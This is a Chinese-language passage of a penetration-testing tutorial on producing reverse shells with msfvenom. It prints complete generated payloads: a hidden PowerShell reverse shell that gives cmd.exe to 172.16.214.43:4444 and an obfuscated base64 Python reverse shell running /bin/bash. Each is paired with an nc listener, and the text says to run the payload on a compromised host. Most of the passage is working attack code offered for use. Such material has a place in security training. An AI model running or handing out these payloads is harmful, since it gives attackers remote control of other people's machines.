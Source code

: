 除了 bash 也可以使用其他的语言进行反弹 shell，这里可以使用 msfvenom 生成反弹 shell，操作起来比较方便，使用 `msfvenom -l payload | grep "cmd/"`可查看可使用的 payload

比如使用 `cmd/windows/reverse_powershell` 这个 payload

```
# 控制端
> msfvenom -p cmd/windows/reverse_powershell lhost=172.16.214.43 lport=4444
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: cmd from the payload
No encoder specified, outputting raw payload
Payload size: 1586 bytes
powershell -w hidden -nop -c $a='172.16.214.43';$b=4444;$c=New-Object system.net.sockets.tcpclient;$nb=New-Object System.Byte[] $c.ReceiveBufferSize;$ob=New-Object System.Byte[] 65536;$eb=New-Object System.Byte[] 65536;$e=new-object System.Text.UTF8Encoding;$p=New-Object System.Diagnostics.Process;$p.StartInfo.FileName='cmd.exe';$p.StartInfo.RedirectStandardInput=1;$p.StartInfo.RedirectStandardOutput=1;$p.StartInfo.RedirectStandardError=1;$p.StartInfo.UseShellExecute=0;$q=$p.Start();$is=$p.StandardInput;$os=$p.StandardOutput;$es=$p.StandardError;$osread=$os.BaseStream.BeginRead($ob, 0, $ob.Length, $null, $null);$esread=$es.BaseStream.BeginRead($eb, 0, $eb.Length, $null, $null);$c.connect($a,$b);$s=$c.GetStream();while ($true) {    start-sleep -m 100;    if ($osread.IsCompleted -and $osread.Result -ne 0) {      $r=$os.BaseStream.EndRead($osread);      $s.Write($ob,0,$r);      $s.Flush();      $osread=$os.BaseStream.BeginRead($ob, 0, $ob.Length, $null, $null);    }    if ($esread.IsCompleted -and $esread.Result -ne 0) {      $r=$es.BaseStream.EndRead($esread);      $s.Write($eb,0,$r);      $s.Flush();      $esread=$es.BaseStream.BeginRead($eb, 0, $eb.Length, $null, $null);    }    if ($s.DataAvailable) {      $r=$s.Read($nb,0,$nb.Length);      if ($r -lt 1) {          break;      } else {          $str=$e.GetString($nb,0,$r);          $is.write($str);      }    }    if ($c.Connected -ne $true -or ($c.Client.Poll(1,[System.Net.Sockets.SelectMode]::SelectRead) -and $c.Client.Available -eq 0)) {        break;    }    if ($p.ExitCode -ne $null) {        break;    }}

> nc -lvp 4444
```

将生成的 payload 复制到失陷主机上运行，即可收到反弹回的 shell

![](https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/Snipaste_2021-05-28_12-36-45.png)

再比如使用 `cmd/unix/reverse_python` 这个payload

````
# 控制端
> msfvenom -p cmd/unix/reverse_python lhost=172.16.214.43 lport=4444
[-] No platform was selected, choosing Msf::Module::Platform::Unix from the payload
[-] No arch selected, selecting arch: cmd from the payload
No encoder specified, outputting raw payload
Payload size: 505 bytes
python -c "exec(__import__('base64').b64decode(__import__('codecs').getencoder('utf-8')('aW1wb3J0IHNvY2tldCAgICwgc3VicHJvY2VzcyAgICwgb3M7ICAgICAgaG9zdD0iMTcyLjE2LjIxNC40MyI7ICAgICAgcG9ydD00NDQ0OyAgICAgIHM9c29ja2V0LnNvY2tldChzb2NrZXQuQUZfSU5FVCAgICwgc29ja2V0LlNPQ0tfU1RSRUFNKTsgICAgICBzLmNvbm5lY3QoKGhvc3QgICAsIHBvcnQpKTsgICAgICBvcy5kdXAyKHMuZmlsZW5vKCkgICAsIDApOyAgICAgIG9zLmR1cDIocy5maWxlbm8oKSAgICwgMSk7ICAgICAgb3MuZHVwMihzLmZpbGVubygpICAgLCAyKTsgICAgICBwPXN1YnByb2Nlc3MuY2FsbCgiL2Jpbi9iYXNoIik=')[0]))"

> nc -lvp 4444
````

